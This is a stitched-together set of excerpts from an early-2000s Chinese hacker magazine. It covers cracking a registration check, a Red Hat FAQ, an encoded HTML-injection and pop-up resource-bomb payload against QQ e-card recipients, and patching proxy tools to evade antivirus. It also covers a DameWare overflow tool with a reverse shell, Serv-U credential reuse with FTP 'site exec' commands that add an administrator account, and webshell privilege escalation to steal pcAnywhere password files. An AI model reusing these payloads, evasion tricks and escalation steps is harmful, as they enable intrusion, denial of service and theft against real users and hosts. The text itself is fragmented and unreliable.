00413776  33C0        XOR EAX,EAX ; 进行异或运算
00413778  8D4C24 0E   LEA ECX,DWORD PTR SS:[ESP+E]
0041377C  8A4434 20   MOV AL,BYTE PTR SS:[ESP+ESI+20]
00413780  50          PUSH EAX
00413781  68 94B54200 PUSH QMACRO.0042B594
00413786  51          PUSH ECX
00413787  FFD5        CALL EBP
00413789  8A5424 1A   MOV DL,BYTE PTR SS:[ESP+1A]
0041378D  8A4424 1B   MOV AL,BYTE PTR SS:[ESP+1B]
00413791  83C4 0C     ADD ESP,0C
00413794  8857 FF     MOV BYTE PTR DS:[EDI-1],DL
00413797  8807        MOV BYTE PTR DS:[EDI],AL
00413799  46          INC ESI
0041379A  83C7 02     ADD EDI,2
0041379D  83FE 10     CMP ESI,10
004137A0  7C D4       JL SHORT QMACRO.00413776
```

这些是在进行注册码的初步计算，计算完后会得到一个 32 位的字符串，继续跟进会发现下边有个 CALL 会再次计算注册码，有兴趣的朋友自己跟一下。

继续按 F8 跟进，在下边不远处就会发现如下：

```assembly
004140EA  E8 A1860000 CALL QMACRO.0041C790 ; 在这里中断
004140EF  8B4C24 28   MOV ECX,DWORD PTR SS:[ESP+28]
```

# 神秘园

```asm
ECX,DWORD PTR SS:[ESP+28]
004140F3 8B5424 0C        MOV EDX,DWORD PTR SS:[ESP+0C]
004140F7 51               PUSH ECX
//ECX中为我们输入的假注册码
004140F8 52               PUSH EDX
//EDX中就是真正的注册码
004140F9 FF15 C0184200   CALL DWORD PTR DS:[4218C0]
004140FF 83C4 08          ADD ESP,8
00414102 85C0             TEST EAX,EAX
//对标志位进行检验
00414104 0F85 A0000000    JNZ QMACRO.004141AA
//如果不等于则跳转
0041410A 68 B8B54200     PUSH QMACRO.0042B5B8
```

在寄存器窗口中就可以看到004140F8中的注册码了（图6），其实00414104的那个跳转就是爆破的关键，只要把它改为JE就爆破成功了。

这个方法很笨，不过对于一些新手或者在一些特殊情况下不失为一种好方法。本文介绍了OD下万能断点的方法，同时也粗略介绍了注册码追踪的常规方法，希望能给朋友们带来少许灵感。最后感谢yzez[DFCG]的支持！

（本文所涉及的以下软件光盘中有收录：按键精灵 Quick Macro V2.65、UPX、PEiD v0.91、OllyDbg 1.09）

---

- 可不可以相互切换 KDE 及 GNOME 呀？

对于 RedHat Linux 系统来说，安装成功后，默认使用的是 GNOME，如果我们想要更换成 KDE 的话，可以点击系统最左下角红色帽子图标 —> “系统工具” —> “更多系统工具” —> “Desktop Switching Tool”。在菜单中选中 KDE，点“OK”按钮就可以了（图1）。我们可以随时使用 Desktop Switching Tool 在 GNOME、KDE、TWM 进行切换。

实际上 X-Window 只是一个很空荡的图形环境，而真正负责管理系统的则是运行在 X-Window 上的图形管理软件。在 Linux 也包括 UNIX 系统中，最常用到的就是 KDE 及 GNOME 了。在网上关于 KDE、GNOME 到底哪个好些的争论已经有好久了，但都是“萝卜青菜，各有所爱”，反正对于系统的操作来讲，这两个都是完全可以胜任的，至于到底选择哪一个，就看各人的喜好了。

- 我在 RedHat Linux 下，将软盘放入软驱以及将光盘放入光驱，怎么软盘及光盘都认不出来呀？

对于 Windows 系统来说，软驱及光驱都是系统自动识别的，只要硬件安装成功，就可以在操作系统中直接使用。但是在 RedHat Linux 系统下却不是这样，默认是识别不出这些硬件的，我们要想使用软驱及光驱，就必须让系统先装载它才行。在桌面上右击软驱及光驱的图标，在弹出的菜单中，选择“装载”，系统就会自动的把软驱及光驱以文件的形式装载上了。装载完成后，我们就可以正常的使用软盘及光盘了。另外，在退出系统前，请不要忘记了将装载的软驱及光驱卸载掉。

- 我在原来安装 RedHat Linux 的时候，软件包是采用默认的方式安装的，有许多都没有，有没有什么办法可以添加安装呢？

方法当然是有的。点击左下角红帽子图标 —> “系统设置” —> “添加/删除应用程序”，系统会检查系统软件包状态，然后将整个安装的情况显示出来（图2）。凡前面打上勾的为已经安装的；未打勾的是没有安装的；灰色打勾的为只安装该包中的部分软件的。我们可以通过点击最右边的“细节”来查看具体安装的软件包。选择好后，点击右下方的“更新”按钮，系统就会要求我们在光驱中放入相应的安装光盘，然后进行自动添加安装了。如果是想卸载某个软件包的话，方法一样。但有一点要注意，在放入光盘前，可别忘记了要给 RedHat Linux 系统换光盘哟，不然系统可是认不出你的光驱哟！

## 某某漏洞让QQ也威胁系统安全

国内的即时通讯软件中，腾讯QQ的庞大用户群无疑让它成为同类软件中的佼佼者。但腾讯的安全措施好像做得不太好，比如：让QQ非法操作的特殊代码、免费注册为QQ会员……漏洞一个接一个，让腾讯慌了手脚！

即使如此，腾讯出现过的漏洞都是和软件本身有关，还危害不到系统安全，似乎和系统入侵扯不上什么关系。但这次这个漏洞如果利用得当，对国内的网民来说，威胁绝不亚于 RPC 溢出……

### 发现漏洞

上个月我发现了新的 QQ 秀免费买商品的漏洞，之后送了很多人衣服（当然多数是 MM 咯，活活），有些朋友为了感谢我，给了我几个 Q 币。既然买衣服不要钱，就拿着 Q 币去送送贺卡吧！

我是第一次来 QQ 的贺卡站，准备送几张贺卡给 MM。突然发现贺卡的附言（祝福心语）中限制输入“<”、“>”、“"”等字符（图1）。

难道是腾讯心虚？难道贺卡可以执行 HTML 代码？马上测试！

### 测试漏洞

随便写入一句 HTML 代码，由于限制了写入字符的数目，所以无法写入复杂代码，但我们可以让它跳转到其它页面。在“祝福心语”里写入如下字符（这段代码是让网页自动跳转到 http://www.hackerxfiles.net/bbs/）：

```html
<meta http-equiv="refresh" content="1; URL=http://www.hackerxfiles.net/bbs/">
```

点击“就这样发送吧”，出现错误警告（图2）。

果然有输入字符检测啊！看来不能直接输入了。经过测试，发现被检测的字符是“<”和“>”，我们将不允许的字符转换一下，以16进制写（在这里“<”写为“&#x3C;”，“>”写为“&#x3E;”，“/”写为“&#x2F;”）：

```html
&#x3C;meta http-equiv="refresh" content="1; URL=http://www.hackerxfiles.net/bbs/"&#x3E;
```

点击“就这样发送吧”，哈哈！成功进入发送界面，现在发送吧（可先发给自己测试一下）！

收到贺卡，激动中打开……咦？怎么没有跳转？查看源代码，看到如下这一条代码：

```html
<font color=''>?<meta http-equiv=</font>
```

代码从“<meta http-equiv=”后面开始被切断，看来腾讯把“"”也过滤掉了。我们将“"”也替换为16进制（“&#x22;”），写入如下代码：

```html
&#x3C;meta http-equiv=&#x22;refresh&#x22; content=&#x22;1;URL=http://www.hackerxfiles.net/bbs/&#x22;&#x3E;
```

发送！哈哈，跳到《黑客X档案》的论坛了（图3）！

这个漏洞如果和其它网页配合，就会变得非常可怕！比如你可以让对方跳转到一个网页木马的页面、跳转到有恶意代码的页面、在对方系统建一个 ADMIN 权限的用户、记录对方的 IP，甚至直接格式化对方的硬盘……还可以还可以……（自言自语：“冷静点、冷静点……”）

> 注意：JavaScript 代码要在 JavaScript 代码中传递时，如果加入一个“\”符号，否则会出现 snl 写入错误。

### 实例说明

我们来举个例子，如下代码是循环弹出无限窗口的代码（这个代码无须改动就已经很危险了，请不要胡乱测试）：

```javascript
<script>
var i=0;
while(1){
  window.open("", "", "width=1,height=1,resizable=no");
  i++;
}
</script>
```

我们先给自己随便发张贺卡，然后看这张贺卡的地址，假如此地址是：`http://ecard.tencent.com/cgi-bin/qqcard_user_showsendedcard?sendid=833&senduin=50451640&confirm=1&arraytype=0&showtype=1`，那么我们可推论出下一张贺卡的地址：`http://ecard.tencent.com/cgi-bin/qqcard_user_showsendedcard?sendid=834&senduin=50451640&confirm=1&arraytype=0&showtype=1`。我们把这个地址放进上面弹出窗口的代码中，替换里面的“网址”，然后再替换一些被过滤的字符，就成这样了：

```javascript
<script>
var i=0;
while(1){
  window.open(&#x22;http://ecard.tencent.com/cgi-bin/qqcard_user_showsendedcard?sendid=834&senduin=50451640&confirm=1&arraytype=0&showtype=1&#x22;, &#x22;C&#x22;+i, &#x22;width=1,height=1,resizable=no&#x22;);
  i++;
}
</script>
```

将这段代码以“祝福语”的方式发给别人，对方在收到贺卡后，马上会又弹出一个贺卡，然后第一张打开的贺卡和后弹出的贺卡又会各自新打开一个贺卡窗口……以此类推，对方的机器瞬间就会被吃完系统资源，然后 OVER！这样，实际上是做了一个简单的资源炸弹。

呵呵，好了，就此打住。网页木马的做法和恶意代码之类的东西不在本文讨论范围之内，就不多说了。但要注意一点，如果想让对方跳转到网页木马页面，而又不想让对方察觉到，还是用本文的第一例，让对方在同一窗口中跳转为好。为了不引起怀疑，最好伪造一个和 QQ 贺卡相似的页面。

这个漏洞对广大 QQ 用户来说威胁巨大啊！想想看，有几个人收到贺卡后会不打开呢？防御这招也没什么好办法，除了腾讯自己想办法完全禁止发送 HTML 代码外，个人能做的就是不要随便打开别人给你发的贺卡……

不过，我测试完后发现 QQ 贺卡里也是有免费贺卡的……郁闷，可惜了用来测试的 Q 币啊，本来还可以和 MM 照几张 QQ 秀的合照的……

# 一个人的战争

常看《黑客X档案》的黑友，肯定有人像我一样在自己的电脑或肉鸡的某个角落建一个黑客兵器库，里面存贮着从杂志光盘和网上收集到的各式黑客工具。但有时我们用到的一些工具，可能是黑客兵器库以外的东西，我把这些不是黑客工具却有黑客用途和功能的软件称之为非常规武器。都是什么呢？下面一一介绍给大家。

### 看网页源代码轻松使用 FrontPage 2000

当我们想把网上看到的漂亮特效搬到自己网站上时，查看源代码却是一堆乱码！想费力破解，却弄不懂源代码的加密算法。一个偶然的机会，我发现 FrontPage 2000 是个不错的网页解密器，用它破解加密代码太简单了，只要这个加密页面正常浏览，就先按 Ctrl+A（全选），再按 Ctrl+C（复制）。这样全选并复制这个页面，然后打开 FrontPage 2000，在空白区域 Ctrl+V 粘贴这个页面后，再点一下 FrontPage 2000 下角状态栏里的 HTML，就可看到正常的 HTML 源码了。

举个例子图文说明一下：很多网站的加密方法是采用 JavaScript 的 `escape()` 函数，把这些字符、汉字等变成乱码，以达到深层加密的目的。我写了一个假首页，正常的 HTML 网页源码是这样的：

```html
<html>
<head>
<title>一个示例页</title>
</head>
<body>
<center>
<p>黑客X档案的fans好爽</p>
</center>
</body>
</html>
```

用 `escape()` 函数来给它加密，代码变成了这样：

```html
<script>
<!--
document.write(unescape("%3Chtml%3E%0D%0A%3Chead%3E%0D%0A%3Ctitle%3E%u4E00%u4E2A%u793A%u4F8B%u9875%3C/title%3E%0D%0A%3Cbody%3E%0D%0A%3Ccenter%3E%0D%0A%3Cp%3E%u9ED1%u5BA2%uX%E6%A1%A3%E6%A1%88%E7%9A%84fans%u597D%u723D%3C/p%3E%0D%0A%3C/center%3E%0D%0A%3C/body%3E%0D%0A%3C/html%3E"));
//-->
</script>
```

将这段代码保存成 .html 后，用 IE 打开，将看到图1所示的效果。我们用 FrontPage 2000 解开这段代码，非常容易。在图1所示的页面按 Ctrl+A，再按一下 Ctrl+C。打开 FrontPage 2000，在空白区域按 Ctrl+V，点击底部的 HTML 状态，看到了吧，源代码清清楚楚地摆在那儿（图2）。

> 注意：只要是一个 HTML 网页代码经“加密”而且这个页面能正常浏览（不弹出警告对话框等），用 FrontPage 2000 是能够解密的。但如果 HTML 网页代码是局部加密的话，FrontPage 2000 就无能为力了。

FrontPage 2000 还有一个用途——用作 FrontPage 服务器扩展（FrontPage 2000 Extensions）漏洞入侵。可能大多数都会，我只简单提一下。

## 2. 打造自己的 UltraEdit

UltraEdit 是套极棒的文字、Hex、ASCII 码编辑器，一般大家常会用来修改 EXE 或 DLL 文件。我经常用它来改写一些黑客软件的版权，更重要的是，我还常用它来修改一些黑软的内在信息，从而让流行的黑客工具躲过杀毒软件的查杀。

**（1）浏览器信息隐藏（图3）**

这是我登录《黑客X档案》官方网站时，论坛显示我的个人信息，浏览器版本变为 LCXX1.1A。这是怎么回事呢？原来在 Win2k 系统下，上网时透露你信息的东西就是 `Winnt\System32` 下的 `urlmon.dll` 文件。用 UltraEdit 打开 `urlmon.dll` 文件，然后使用“搜索”菜单里的“替换”选项替换 `urlmon.dll` 文件里的 `MSIE xx` 字符（xx 是指你的浏览器版本，比如如果原来是 `MSIE 6.0b`）。替换的名字可根据自己的喜好随便取，我用的是 `LCXX1.1A`（图4）。

> 注意：替换时要勾选“查找 ASCII”；替换完后，存盘时因为这个文件系统正在使用，要另存为一个文件。然后到 DOS 模式下（安装了双系统的朋友就到另一个系统，或到安全模式），用修改完另存的文件把原来的文件 `urlmon.dll` 替换掉。这时再重新进入系统论坛上一看，是不是变成了你改的浏览器信息了？

**（2）让黑软躲过杀毒软件**

网上很多人会用 UltraEdit 修改 Snake 的代理跳板，使其个性化，但大部分人员会改，却并不明白为什么要这样改。下面我就给大家说一下，学会这种方法后可用来修改别的软件。

我们在本机先装一个 Snake 的代理跳板，一切都按默认配置来。先运行下看看命令提示（图5），我把程序改名为 `snake.exe`。图5中显示的命令提示我们都可以用 UltraEdit 将其改掉，但这不是我们的最终目的，只改这些也躲不过杀毒软件，要改的应当是程序里被杀毒软件当作病毒特征的字符串。我们先根据提示来安装跳板吧！这对菜鸟来说也轻车熟路。在 Cmd 依次执行以下命令：

```bash
snake -install  // 把程序改名为 snake，这个命令是把跳板安装成服务。
snake -config starttype 2  // 这个命令设置服务重启后程序也运行。
net start skserver  // 启动 skserver 服务。
```

安装完后，就把机器做成了一个 Socks5 代理，端口为 1813。我们用 `sc.exe` 来侦查这个跳板程序到底在机器里加载了什么，即病毒特征的字符串是什么（图6）：

```text
D:\>sc qc skserver
[SC] GetServiceConfig SUCCESS
SERVICE_NAME: skserver
TYPE               : 10  WIN32_OWN_PROCESS
START_TYPE         : 2   AUTO_START
ERROR_CONTROL      : 1   NORMAL
BINARY_PATH_NAME   : D:\snake.exe
LOAD_ORDER_GROUP   :
TAG                : 0
DISPLAY_NAME       : Snake SockProxy Service
DEPENDENCIES       :
SERVICE_START_NAME : LocalSystem
```

看到图6中划线的地方了吗？跳板程序加载后，服务名是 `skserver`，服务描述是 `Snake SockProxy Service`。我们只要在原来的程序中把这两个关键字符串改一下，就可逃过杀毒软件了。

用 UltraEdit 打开 `snake.exe`，依次查找替换“skserver”和“Snake SockProxy Service”这两个字符串。图7是我用“Windows”替换“skserver”的样图。

**（3）修改版权信息**

如果想在这个软件里加上自己的版权信息也是可以的。比如图5中显示的“visit my homepage: [http://snake.gnuchina.org]”，你完全可在 UltraEdit 里用同样的方法查找替换成“visit my homepage: [你的网页地址]”。

看看我的劳动成果吧（图8）！

### 四、解决办法

先来看看存在漏洞的服务名，使用命令 `net start` 可以查看（图 7）。看到图 7 中框上的服务名 DameWare Mini Remote Control 了吗，就是它惹的祸。目前 DameWare NT Utilities 厂家没对此漏洞发布任何补丁，解决的办法就有一个，卸载主机中的 DameWare NT Utilities。紫幻提醒网管朋友赶快去看看你的主机，以最快的速度关闭危险之“门”（小编寄：也可将服务端口更改，但仅做权宜之策）。

### 五、注意问题

- 1. 想要成功利用 DameWare Mini Remote Control 远程缓冲区溢出漏洞需要有公网的独立 IP。没有独立 IP 的读者可以找一个内网上去测试。
- 2. DameWare.exe 目前的成功率为 80% 左右，但是需要注意的一点是溢出以后有时候反向连接的 Shell 会比较慢，请大家多等一会，最慢的有 10 秒，反向 Shell 的连接速度根据你的网速和漏洞主机的网速而定。
- 3. 有时候溢出以后会中途停顿，估计是软件的 BUG。碰到这样的主机请读者再换一个主机继续测试。
- 4. DameWare.exe 可以溢出的主机有 Win2k、WinNT、WinXP、Win2003。根据我的经验一般 Win2k 上装 DameWare NT Utilities 的比较多。原因是因为 DameWare NT Utilities 在安装的时候需要利用 IPC$，在 WinXP 和 Win2003 默认的 IPC$ 权限为 guest，也就是说默认情况下不能安装成功。
- 5. DameWare Mini Remote Control 远程缓冲区溢出漏洞属于是比较严重的漏洞，紫幻提醒读者不要利用本篇提到的内容搞破坏。

> 注意：因为光盘是前期制作，所以文中的这个溢出工具没有来得及收录在光盘上，大家可以在以下链接中获得该工具：

- http://hackerxfiles.net/tools/damewareexp.rar
- http://zilian.y365.com/damewareexp.zip

到时候我们也会发布在 X 论坛上，供大家下载。

我在 2003 年 12 期的《黑客 X 档案》上刊登了一篇文章，标题为“Serv-U FTP Server 本地远程提升权限缺陷”。这个缺陷的发现整整花费了我一个半月的时间。最初我把这个缺陷定义为漏洞，可问过了许多牛人和一些安全公司后，发现我最初的想法是错误的。

之所以不能称之为漏洞，原因是：由于在 NTFS 分区格式下，GUEST 组的用户对 “Program Files” 目录只有可读权限，即 Serv-U 默认安装在系统根目录下是不可写的，不能写 ServUDaemon.ini 文件，所以这个提升权限是由于配置不当引起的，不能称为漏洞。

这个缺陷发现后我就继续对 Serv-U FTP Server 进行了仔细研究，经过研究，我又发现了 Serv-U FTP Server 一个重大的 BUG。这个 BUG 绝对在默认情况下就存在，情况要比上次的缺陷严重 N 倍。利用默认的可读权限就可以实现远程管理，提升权限……

## Serv-U FTP Server 远程管理的泄露缺陷

### 一、先来回顾

在没开始正题前，我先带大家回顾一下以前写的一篇文章，刊登在《黑客 X 档案》的 2003 年 11 期上，文章名为“Serv-U 也玩远程控制”，相信许多读者都看过了。不过，为了照顾一下新读者，我再把“Serv-U 也玩远程控制”一文的主要内容描述一次，因为想要学习以下的漏洞内容就必须熟练掌握 Serv-U 的远程控制方法。以下为“Serv-U 也玩远程控制”的大概内容：

**Serv-U 的远程控制**

> Serv-U 实现远程控制就要满足以下条件：
> 1. 需要两台主机装有 Serv-U，一台为控制端，另一台为被控端。
> 2. 被控端要把其中一个用户设置为“系统管理员”。
> 3. 控制端要新建一个域，然后 IP 地址要和被控端相同，然后输入被控端的用户名密码（这里的用户要为“系统管理员”那个用户），连接后就可远程管理被控端的 Serv-U 了。

我想 Serv-U 厂家设计这个远程管理功能是为了更方便主机的管理，这样就不用在几台主机间跑来跑去了，只需把其他 Serv-U 设置成被控端，然后把一台设置成主控端就可管理所有的 Serv-U 了。问题出在 Serv-U 的远程管理上，经我研究，发现 Serv-U 把远程管理的用户名和密码也放到了 INI 文件里，但不是在 ServUDaemon.ini 文件里，而是在 Serv-U 安装目录的另外一个 INI 文件里，该文件名是 ServUAdmin.ini。

废话不多说了，下面我就为大家详细讲解 Serv-U FTP Server 远程管理密码泄露缺陷，以下是我发现该漏洞的全过程。

### 二、漏洞发现过程

在我发现 Serv-U FTP Server 本地远程提升权限缺陷以后，我就开始不断寻找安装有 Serv-U FTP Server 的主机。其实没有什么目的，只是感觉一下提升权限的“快感”。但很多主机都把 Serv-U 安装到了系统目录下，并且是 NTFS 格式分区。碰到这样的主机，就不能再用“Serv-U FTP Server 本地远程提升权限缺陷”一文中所提的办法来提升权限了。在一次偶然中我发现了 Serv-U 另外一个 INI 文件的秘密。事情是这样的，前几天一个朋友找我帮忙做网站，并把他虚拟主机空间的 FTP 用户名和密码给了我。我朋友买的这个虚拟主机空间是支持 ASP 的，我为了测试一下这个空间的安全性就上传了一个 ASP 木马。（说明一下我这个 ASP 木马是免 FSO 的）上传发现这个 ASP 木马只可以浏览 C 盘和我这个空间所在的目录，其他地方都不可以浏览，当我找到 C 盘根目录的时候发现了该主机也安装有 Serv-U。我就按照我的老套路进行权限提升。可是我发现这个主机 C 盘目录虽可读，我这个 WebShell 没有写权限。不过我在 Serv-U 目录下看到了一个名为：ServUAdmin.ini 的文件。这个文件里大致的内容为：

```ini
[GLOBAL]
FirstTime=0
MainViewState=0
# 中间省略
[SERVERS]
Server1=218.61.74.231
[SERVER=218.61.74.231]
IP=218.61.74.231
User=Admin
Password=5E296B617225
Port=21
```

以上为 ServUAdmin.ini 文件中的内容，篇幅原因中间省略。这个 ServUAdmin.ini 中的内容和我以前看到过的不太一样。好像里面多了以下内容：

```ini
Server1=218.61.74.231 
[SERVER=218.61.74.231]
IP=218.61.74.231
User=Admin
Password=5E296B617225
Port=21
```

经过我多次实验发现，原来这些内容是通过本地用 Serv-U 远程管理登录出来的内容。看到这里眼前一亮。马上在我自己本地也装了一个 Serv-U，新建了一个域 IP 地址为“218.61.74.231”（与远程主机一致）。如图 1。

然后用户名输入 Admin，我就不再抓图了。密码输入“5E296B617225”。都按照远程主机 INI 文件中的内容进行输入。输入完以后点击连接（图 2）。密码错误？不对啊，我是按照远程主机 INI 文件内容进行输入的，怎么会错误呢？想到这里我就回到我自己机器的 Serv-U 的安装目录里，找到 ServUAdmin.ini 文件。内容如下：

```ini
[SERVERS]
Server1=218.61.74.231
[SERVER=218.61.74.231]
IP=218.61.74.231
User=Admin
Password=1105110D05290D12075E1E0F
Port=21
```

原来这个“5E296B617225”的密码是经过加密的密码。我输入“5E296B617225”这个密码又被加密成“1105110D05290D12075E1E0F”。到了这里我的灵感来了，把远程主机 ServUAdmin.ini 文件里的“Password=5E296B617225”直接替换掉我本地 INI 文件中“Password=1105110D05290D12075E1E0F”，然后保存。再用 Serv-U 直接连接（图 3）。还是密码错误。是不是需要重新启动一下我本地的 Serv-U 才可以呢？我就抱着试试看的态度关闭了我本机的 Serv-U。然后再重新打开。打开以后还是点击连接远程（图 4）。

这次真成了，直接连上了远程管理。看来 Serv-U 的密码对不同系统的算法都是一致的。接下来还用问吗？当然是先加一个用户，再把这个用户设置成有可执行权限，然后再干：

```text
ftp> open ip
Connected to ip.
220 Serv-U FTP Server v4.1.0.0 for WinSock ready...
User (ip:(none)): id
331 User name okay, please send complete E-mail address as password.
Password: password
230 User logged in, proceed.
ftp> cd winnt
250 Directory changed to /WINNT.
ftp> cd system32  //进入 system32 目录
250 Directory changed to /WINNT/system32
ftp> quote site exec net.exe user zihuan zihuan /add
200 EXEC command successful (TID=33).
ftp> quote site exec net.exe localgroup administrators zihuan /add
```

呵呵！通过以上命令我就已经是对方的管理员了。

通过以上的一次渗透，可以说明 Serv-U 的远程管理功能绝对是危险的，只要入侵者取得了 GUEST 组的权限就可以通过以上办法实现远程管理，然后再加系统管理员，你说可怕不可怕？现在这样设置的主机不在少数，我一夜之间就搞定了三台。这也说明 Serv-U 犯了一个低级的错误，把这么重要的数据都装在了 INI 文件中，并且算法一样。

### 三、解决办法

- 1. 停止使用 Serv-U 的远程管理。
- 2. 如果想使用 Serv-U 的远程管理功能，请把系统目录对 GUEST 组的可读属性去掉。

> **注意**：
> 修改完本地 ServUAdmin.ini 文件与远程 ServUAdmin.ini 文件后，一定要重新启动一次 Serv-U，这样新的密码才会生效。

#### 声明：

本文仅用来描述可能存在的安全问题，作者本人和《黑客 X 档案》杂志社不为此安全公告提供任何保证或者承诺。由于传播、利用此文章提供的信息而造成的任何直接或间接的后果及损失，均由使用者本人负责，本文作者和《黑客 X 档案》杂志社不为此承担任何责任。作者拥有对此安全公告的修改和解释权，如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者本人允许，不得任意修改或增删减此文章公告内容。

# 一个人的战争

自从微软发布 Win2K 操作系统以后，就向全世界用户提倡采用 NTFS 分区格式。采用 NTFS 格式分区的好处是不言而喻的，比如设置权限和各级权限审核。本人也一直在使用 NTFS 格式分区，在操作系统上采用 NTFS 格式分区只要分配好权限设置，就会大幅度提升系统的安全性。至于 NTFS 分区格式的好处，我在这里就不再为大家详细介绍了。

NTFS 分区似乎成了一个神话，许多入侵者都因为不能够突破 NTFS 分区格式的权限审核而不能深入渗透系统，我本人在以前的 Hacking 当中也被 NTFS 这个“拦路虎”阻拦过多次，导致整个渗透行动失败，最近我发现了一种思路可以在对方很变态（BT）的设置下成功提升权限，不敢独享！以本文详细介绍给大家。想要深入探讨就先要了解目前采用 NTFS 格式分区的主机权限设置的几种类型。

## 一、默认设置

先来看看默认权限设置下，user 或者 guest 组对系统根目录和 Program Files 目录的默认权限分配。在默认 NTFS 格式分区下，Program Files 目录对 user 组的权限只有读取及运行、列出文件夹目录、读取（guest 组也是一样）。我们可以做一个实验，我现在是以 user 登录到计算机中，然后在 Program Files 目录试图建立一个文件夹，结果拒绝访问，这说明没有写入权限。下面我们继续来看 WINNT 目录的默认权限分配（我试验的主机为 WIN2K 主机）。还是拿 user 组（guest 组也是一样）做例子，WINNT 目录和 Program Files 目录情况差不多，我就不再多说了，大家自己看就能明白了。

还有一个关键的目录就是“Documents and Settings”目录，这个目录存放着所有用户的信息，比如收藏夹、开始菜单、文档……默认 NTFS 格式分区下，guest 组和 user 组对管理员用户名下的文件夹无任何权限（比如 administrator 文件夹），对 All Users 和 guest 文件夹只有读取权限，而没有写权限。

说完系统分区，下面说一说系统分区以外的权限。一般默认情况下 GUEST 组对系统以外分区的权限为完全控制，可以进行任何操作。看好了我的“默认”哦。至于默认权限我就给大家废话这么多，下面我给大家讲一下在权限默认分配的情况下如何实现提升权限。基本有以下几种思路和方法。

### 1. 替换服务法
这种办法现在被黑客们广泛使用。假设系统加载的服务有不在系统分区下的，就可以找到服务所对应的文件，然后再用后门、木马……替换掉这个文件。等系统重新启动以后，就会自动加载你替换掉的这个文件，这样你就实现了提升权限。

> **分析**：默认的 NTFS 格式分区中，对系统以外的分区 guest 和 user 组都有完全控制权，所以本手法可以替换服务提升权限。

### 2. 系统漏洞
对于利用系统漏洞导致的提升权限就没什么好说的了，比如：idq.dll + ispc.exe，再如 debug 提升权限和早期的输入法漏洞等。

### 3. 利用 Serv-U 的 ServUDaemon.ini 文件提升权限
关于此方面的内容，我发表在了 2003 年 12 期的《黑客 X 档案》上，详细内容请参阅杂志。

> **分析**：想要利用此法提升权限，必须要满足两个条件：必须对 ServUDaemon.ini 文件有改写权限；NTFS 表示系统分区下 user 组和 guest 组是不能修改 ServUDaemon.ini 的，所以此法有一定的限制。对于系统分区外分区默认情况下是可以改写的，可以利用此法实现提升权限。

### 4. 利用 Serv-U 的默认 43958 端口实现提升权限
在默认安装完 Serv-U 以后，Serv-U 默认监听 127.0.0.1:43958 端口，所以只有在本机才能连接这个管理端口。Serv-U 默认管理帐号是 LocalAdministrator，默认密码是 `#l@$ak#.lk;0@P`。在你取得普通权限以后（比如 WebShell user 权限的 shell），可以把这个 127.0.0.1:43958 端口映射到你自己的 IP 地址上（注意：127.0.0.1 这个 IP 地址是你本地的 IP 地址），然后再用默认管理员帐号 LocalAdministrator，密码 `#l@$ak#.lk;0@P` 登录，然后使用 Serv-U 的远程管理功能实现提升权限（详细方法请看我在另一篇文章《成功渗透 Windows Server 2003》）。

> **分析**：在默认 NTFS 格式分区除系统盘以外，guest 组和 user 组成员都有可执行权限，这样我们就可以执行端口映射工具来映射 127.0.0.1:43958 端口，最终提升权限。

以上四种是目前最常用的提升权限手段，当然除此四种办法外，还有其他办法，比如：嗅探、利用其他第三方软件的设计缺陷、找到 MSSQL 帐户所在 asp 文件……以上我为大家讲的是默认情况下，但一般使用默认 NTFS 权限的分配不多，很多注重安全的管理员都不会使用默认权限分配。

下面我给大家讲一讲不是默认情况下提升权限的一点心得体会。

## 二、非默认设置

如果管理员特意去改这个默认权限分配的话，就可以说明这个管理员很注重安全，应该会比默认情况下给普通用户设置更少的权限。近来我遇到一个变态的主机。设置权限很变态，我攻破某系统以后才看清楚到底是如何分配权限的，请看图 1。

看到了吗？C 盘只有 administrators 组，也就是说只有系统管理员才对系统盘有完全控制，其他用户一点权限都没有。再来看看 D 盘的设置情况，也设置成这样。剩下的 E、F、G 都设置成这样。先说明一点，这个主机是一台虚拟主机，WEB 都在 G 盘，其中一个虚拟目录的权限设置请看图 2。

只有 WEB 目录才给 IIS 帐户完全控制权。这些都是我后来才得知的。下面我就为大家讲一下我是如何在这样的设置下成功实现权限提升的。这台主机扫描结果如下：

```text
* + 61.151.xxx.xxx
|__ 21 File Transfer Protocol
[Control]
|__ 220 Serv-U FTP Server v4.0 for WinSock ready...
|__ 25 Simple Mail Transfer
|__ 220 ESMTP on WebEasyMail [3.5.2.3] ready.
|__ 80 World Wide Web HTTP
|__ HTTP/1.1 404 Object Not Found
Server: Microsoft-IIS/5.0
Date: Mon, 29 Dec 2003 22:53:46 GMT
Content-Type: text/html
|__ 1433 Microsoft-SQL-Server
|__ 3306 Mysql server
|__ +...3.23.56-nt....
|__ 5631 pcAnywhere data
```

我通过 SQL injection 得到了该主机上的一个 WebShell。既然是 WebShell，就说明我现在已经拿到了这个主机的 guest 组的权限。但是我利用 WebShell 执行命令的时候发现什么命令都不可以执行，连最基本的 `dir` 和 `net user` 都不可以。使用 `cmd.asp` 不可以执行任何命令。接下来我就换了一个类似源码 ASP 木马的 WebShell，可以执行一些操作。但是发现只可以在当前目录（`G:\home\sh.leocn.com`）下进行一些操作，除此文件夹以外对任何目录都不可以浏览，原因是 IIS 用户只对该目录有全部权限。相信许多读者也碰到过这样的情况，按照上文默认 NTFS 设置提升权限的方法将行不通，因为你根本出不去这个目录。用 ASP shell 浏览 C 盘，显示什么都没有。

设置得够 BT 吧？如图 3。我估计一般入侵者到这里基本就会放弃。但是前文我给出的扫描结果大家注意到了吗？这个主机开放 5631 端口，说明安装有 pcAnywhere。一般大家都知道，pcAnywhere 安装以后会在 `C:\Program Files\Symantec\pcAnywhere\` 目录下有 `*.cif` 文件，拿到此文件就可以破解出 pcAnywhere 的密码，然后远控连接搞定主机。但是我们现在浏览不到 `C:\Program Files\Symantec\pcAnywhere\` 目录。经过研究发现，不光该目录下有 `*.cif` 文件，在 `C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\` 这个目录下也会有这个文件。在这里拿到这个文件一样可以控制整台主机。

到了这里有些读者就会问了，你现在连 C 盘都浏览不到，怎么拿这个 cif 文件？呵呵，其实一样可以拿到的。本篇文章最重要的地方就在这里，请读者继续往下看。虽然浏览 C 盘现在不可以，但是你注意观察 ASP 木马上的 URL：

```text
http://www.xxx.com/music/a.asp?path=C:.&ib=true
```

关键的一句：`path=C:.&ib=true`

我上文提到了 `C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\` 这个目录下也会有这个 CIF 文件。现在我们手动改变一下 ASP 木马的 URL：

```text
http://www.xxx.com/music/a.asp?path=C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere&ib=true
```

